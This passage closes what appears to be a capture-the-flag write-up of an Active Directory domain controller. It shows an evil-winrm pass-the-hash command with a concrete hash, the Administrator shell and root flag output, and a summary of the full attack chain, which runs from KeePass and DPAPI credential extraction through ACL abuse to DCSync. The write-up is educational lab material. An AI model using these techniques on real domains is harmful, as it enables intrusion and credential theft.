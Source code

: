 ### Pass-the-hash

```bash
evil-winrm -i 10.10.11.70 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 9/16/2025 5:51 AM 34 root.txt
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
b88e5b3<REDACTED>
```

- Root flag captured.
    
- Domain compromise achieved via DCSync → Administrator hash → full system takeover.
    

---
## Conclusions

- The environment is an **Active Directory domain controller** with LDAP, Kerberos, SMB and WinRM exposed.
    
- **Initial access**: valid user credentials (dev share) exposed a KeePass DB and a backup containing plaintext service creds, highlighting poor secret storage and backup hygiene.
    
- **Credential extraction**: KeePass password and backup secrets enabled lateral movement. DPAPI masterkey extraction from user profile allowed decryption of stored domain credentials.
    
- **Privilege escalation**: excessive AD ACLs (WriteDACL/WriteOwner/GenericWrite) and permissive group membership were abused to change ACLs and reset accounts.
    
- **Domain compromise**: high-rights account used for **DCSync** (impacket-secretsdump) to extract NTDS and obtain Administrator NTLM; pass-the-hash used to get Administrator shell.